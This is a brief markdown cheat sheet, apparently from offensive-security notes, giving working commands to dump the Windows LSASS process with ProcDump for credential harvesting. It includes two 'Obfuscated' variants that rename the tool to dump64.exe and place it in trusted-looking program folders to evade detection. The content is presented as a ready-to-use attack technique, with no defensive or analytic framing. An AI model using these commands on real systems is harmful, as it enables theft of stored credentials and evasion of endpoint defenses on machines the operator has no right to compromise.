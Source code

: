 ### Source
* https://live.sysinternals.com/procdump.exe  
* https://live.sysinternals.com/procdump64.exe  

### Dump lsass process to file
```
procdump.exe -accepteula -ma lsass.exe <file>
```

### Obfuscated
```
cp .\procdump.exe 'C:\Program Files (x86)\Microsoft Visual Studio\dump64.exe'
.\dump64.exe -ma (Get-Process lsass).Id <outfile>.dmp
```

### Obfuscated
```
cp .\procdump.exe 'C:\ProgramData\chocolatey\bin\dump64.exe'
.\dump64.exe -ma (Get-Process lsass).Id <outfile>.dmp
```

